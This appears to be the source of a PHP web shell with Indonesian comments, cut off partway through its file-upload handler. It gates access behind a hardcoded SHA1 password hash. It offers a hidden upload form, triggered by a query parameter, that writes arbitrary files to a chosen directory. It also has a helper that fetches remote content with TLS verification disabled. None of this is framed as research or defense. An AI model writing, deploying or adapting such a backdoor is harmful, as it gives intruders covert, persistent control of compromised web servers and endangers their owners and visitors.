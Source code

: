 <?php
session_start();
// Fungsi untuk memeriksa status login
function is_logged_in() {
return isset($_SESSION['X-H0UR']);
}
// Fungsi untuk memvalidasi login
function login($password) {
$valid_password_hash = '9788976da9fc8cf2c2b0a7336e2783f3c16b3111'; // MD5 KEM EDITON PASSWORD DEFAULT ADMIN
$password_hash = sha1($password);
if ($password_hash === $valid_password_hash) {
$_SESSION['X-H0UR'] = 'user';
return true;
} else {
return false;
}
}
// Fungsi untuk logout
function logout() {
unset($_SESSION['X-H0UR']);
}
// Fungsi untuk mengambil konten dari URL
function getContent($url) {
$curl = curl_init();
curl_setopt($curl, CURLOPT_URL, $url);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($curl, CURLOPT_FOLLOWLOCATION, true);
$content = curl_exec($curl);
curl_close($curl);
if ($content === false) {
$content = file_get_contents($url);
}
return $content;
}
// Fungsi untuk mendapatkan data mentah dari URL
function getRawContent($url) {
return getContent($url);
}
// Tangani proses login
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['password'])) {
$password = $_POST['password'];
if (login($password)) {
header('Location: ' . $_SERVER['PHP_SELF']);
exit;
} else {
$error_message = "Password salah!";
echo '<audio autoplay><source src="https://cvar1984.github.io/audio/moan.mp3" type="audio/mpeg"></audio>';echo '<script>alert("' . $error_message . '");</script>';
}
}
// Tangani proses unggah file
if (isset($_GET['UBK']) && $_GET['UBK'] === '3') {
echo '<form method="post" enctype="multipart/form-data">';
echo '<input type="text" name="dir" size="30" value="' . getcwd() . '">';
echo '<input type="file" name="file" size="15">';
echo '<input type="submit" value="Unggah">';
echo '</form>';
}
if (isset($_FILES['file']['tmp_name'])) {
$uploadd = $_FILES['file']['tmp_name'];
if (file_exists($uploadd)) {
$pwddir = $_POST['dir'];